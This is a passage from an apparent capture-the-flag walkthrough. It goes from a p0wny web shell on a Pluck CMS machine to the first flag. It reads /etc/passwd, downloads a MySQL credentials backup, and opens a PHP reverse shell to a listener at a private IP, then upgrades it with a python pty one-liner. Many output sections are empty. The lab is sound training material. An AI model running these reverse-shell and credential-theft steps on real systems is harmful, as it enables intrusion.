








4.4 Get user’s shell (First flag)
Since Pluck is a file-based CMS, you wouldn’t get any database credentials.
1. Look at the system's users.
p0wny@shell:…/html/files#cat /etc/passwd | grep bash
Output:

2. Go to “/var/backups” and list the files.
p0wny@shell:…/html/files# cd /var/backups
p0wny@shell:/var/backups# ls -l
p0wny@shell:/var/backups# ls -l
Output:

There's a “mysql.bak” file that can be interesting.
3. Download the file and save it on your Kali Machine.
p0wny@shell:/var/backups# download mysql.bak
Output:

4. Show the file.
$cat mysql.bak
Output:
l l
It's a Wordpress configuration file.
It shows the Mysql database credentials.
5. Open a “netcat” connection on your Kali Machine.
$nc -nlvp 4444
6. Create a “php reverse shell”.
p0wny@shell:/var/backups# php -r '$sock=fsockopen("192.168.12.10",4444);exec("bash <&3 >&3 2>&3");'
Output:

7. Use the python one-liner to convert this into a proper shell.
Introduce the following commands on the shell:
python3 -c 'import pty;pty.spawn("/bin/bash")'
Output:

8. Catch the flag.
www-data@ProximaCentauri:/var/backups$cd /var/www/htmlwww-data@ProximaCentauri:/var/www/html$ls -al
www-data@ProximaCentauri:/var/www/html$ cat flag1.txt
www-data@ProximaCentauri:/var/www/html$ cat flag1.txt
Output:

